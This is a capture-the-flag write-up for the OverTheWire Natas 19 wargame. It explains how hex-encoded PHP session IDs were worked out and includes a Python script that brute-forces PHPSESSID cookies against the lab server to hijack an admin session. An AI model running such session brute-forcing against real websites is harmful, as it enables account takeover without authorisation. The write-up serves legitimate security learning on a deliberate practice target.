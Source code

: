 # Challenge Overview

We are greeted with a page that tells us that similar code is used but that the session IDs are no longer sequential. We are then called to log in with admin credentials again. If there's anything expected from the previous challenge, it's that the log in boxes are once again useless.

## Challenge Approach

I tried logging in with random credentials and observed (via Firefox) that the PHP cookies seemed to be hexadecimal values. I deleted a few cookies (not before saving their values first) in order to get a few values to understand their patterning. This is what they looked like:

```
126-a
338-a
260-a
```

At this point, I realized that burpsuite wasn't going to hold its own because I needed something that would quickly convert values to hex. It was time to take out Python! Now, I know nothing about python web hacking, so I simply looked up [a tutorial of the previous challenge](https://www.youtube.com/watch?v=C9yxUTQLbRI&list=PL1H1sBF1VAKWM3wMCn6H5Ql6OrgIivt2V&index=16) to watch and learn.


```python
import requests

# Define username and password
username = 'natas19'
password = 'REDACTED'

url = 'http://%s.natas.labs.overthewire.org' % username

session = requests.Session()

# Get request with parameters of the URL, the username
# and password to log in, and the cookie
response = session.get(url, auth=(username, password))

# Prints the HTML response and the cookies of the session
print(response.text)
print(session.cookies)
```



I then used [this source](https://python-forum.io/thread-1715.html) to find out how to convert to hexadecimal in Python. This ran a successful test:

```python
for session_id in range(1, 100, 10):
    session_str = str(session_id) + "-a"
    print(session_str, end=' ')
    session_str = session_str.encode('utf-8').hex()
    print(session_str)
```

Then, all I had to do was incorporate a brute-force of the session ID in get requests to the for loop...

```python
for session_id in range(1, 641):
    session_str = str(session_id) + "-a"
    session_str = session_str.encode('utf-8').hex()
    response = session.get(url, cookies={"PHPSESSID": str(session_str)}, auth=(username, password))
    if 'You are an admin' in response.text:
        print('Success!')
        print(response.text)
        break
    else:
        print("Tried " + session_str)
```

I then brute-forced all the possible cookies and yielded no results. After hours of troubleshooting, I viewed a video walkthrough and found I was supposed to append `-admin` instead of `-a` to the session ID. It seems I had all the parts right except for the most obvious one.
